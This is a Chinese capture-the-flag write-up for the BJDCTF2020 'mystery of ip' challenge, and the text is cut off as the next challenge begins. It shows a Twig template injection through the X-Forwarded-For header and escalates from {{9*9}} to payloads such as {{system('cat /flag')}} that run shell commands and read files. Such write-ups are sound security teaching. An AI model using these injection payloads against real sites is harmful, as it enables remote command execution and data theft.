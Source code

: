 #### \[BJDCTF2020\]The mystery of ip

发现flag页面会出现ip

![image-20240121221116659](https://i-blog.csdnimg.cn/blog_migrate/fce65f4260363284853347263fa9b935.png)

推断

1.  `X-Forwarded-For`注入
2.  **PHP**可能存在**Twig模版注入漏洞**

结合题目名，**IP的秘密**，flag页面也出现了**IP**，猜测为`X-Forwarded-For`处有问题 使用**BurpSuite**抓取数据包：

```
X-Forwarded-For: 1
```

![image-20240121221435582](https://i-blog.csdnimg.cn/blog_migrate/eea94e5b05a9e9c6b5a75e903615c207.png)

```
X-Forwarded-For: {{9\*9}}
```

![image-20240121221542671](https://i-blog.csdnimg.cn/blog_migrate/ecea1839537eeaa646b564ad88196e5a.png)

被成功执行，说明`XFF`可控，测试了半天，因为是php页面，所以没想到模版注入，通过查阅资料 **Flask**可能存在**Jinjia2模版注入漏洞** **PHP**可能存在**Twig模版注入漏洞**

模版中算式被成功执行，尝试是否能执行命令：

```
X-Forwarded-For: {{system('ls')}}
```

![image-20240121221842888](https://i-blog.csdnimg.cn/blog_migrate/7d001fbb199c19ad23ede9185cff8a13.png)

在`/`目录下查找到flag，

```
X-Forwarded-For: {{system('ls /')}}
```

找到flag文件

![image-20240121222029087](https://i-blog.csdnimg.cn/blog_migrate/369dcf61185397b462ef9acaf48ab1be.png)

读取flag，构造payload：

```
X-Forwarded-For: {{system('cat /flag')}}
```

![image-20240121222246910](https://i-blog.csdnimg.cn/blog_migrate/fb78a811b875e9ca5ca7959a9314b4cc.png)

#### \[BJDCTF2020\]Cookie is so stable

先发现有flag页面和Hint页面，dirsearch扫完也没有获得什么

falg输入什么就返回什么
